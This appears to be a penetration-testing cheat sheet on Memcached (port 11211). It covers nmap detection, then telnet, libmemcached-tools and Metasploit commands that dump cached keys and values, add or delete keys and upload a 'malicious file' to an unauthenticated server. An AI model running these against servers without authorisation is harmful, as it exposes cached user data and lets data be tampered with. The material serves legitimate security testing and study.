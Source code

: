 # 11211 - Memcached

## Theory

Memcached is a free, open-source, distributed memory object caching system that stores small chunks of data in-memory as key-value pairs. It's used to speed up dynamic web applications by reducing database load. When a client requests data from the server, it checks the cache for the data. If it's available, it's loaded into memory. If it's not, the server fetches it from the backend storage and stores it in its cache for future requests.

Memcached is usually hosted on port 11211, but you can scan all the ports on the target. You can use NSE Scripts to get more information about the hosted service. Search the directory `/usr/share/nmap/scripts` for "memcached" results in a single script "memcached-info.nse".

Memcached is used by all the major websites having huge data, such as YouTube, Wikipedia, and Twitter.



***

## Practical

### Nmap Scan

```
nmap -sV -p 11211 <Target IP>

nmap -p11211 --script=memcached-info <Target IP>
```

### Connect To the Memcached Server

#### Dumping Data using Telnet

```
# Connect using telnet
telnet 192.168.1.32 11211

# Get Version
version

# Fetch Valuable Data
stats

# Fetch the Slabs Statistics
stats slabs

# Fetch count, age, aviction, expired etc
stats items

# Dump all keys
stats cachedump 1 0

# Fetch values stored on the keys
get <key>

# Add new key
add REMOTE_ADDR 0 0 11
10.10.5.42

# Delete a key
delete <key name>
```

#### Dumping Data using libmemcached-tools

```
# Install
apt install libmemcached-tools

# Fetch server statistics
memcstat --servers=192.168.1.33

# Dump key values
memcdump --servers=192.168.1.33

# Dump all values stored in keys
memccat --servers=192.168.1.33 <key 1> <key 2> <key n>

# Upload malicious file to the server
memccp --servers=192.168.1.33 file

# View the conents of the uploaded file
memcat --servers=192.168.1.33 file
```

#### Dumping Data using Metasploit

```
# Start Metasploit
msfconsole -q

use auxiliary/gather/memcached_extractor
```





***

## REFERENCES

* [https://www.hackingarticles.in/penetration-testing-on-memcached-server/](https://www.hackingarticles.in/penetration-testing-on-memcached-server/)
* [https://book.hacktricks.xyz/network-services-pentesting/11211-memcache](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)
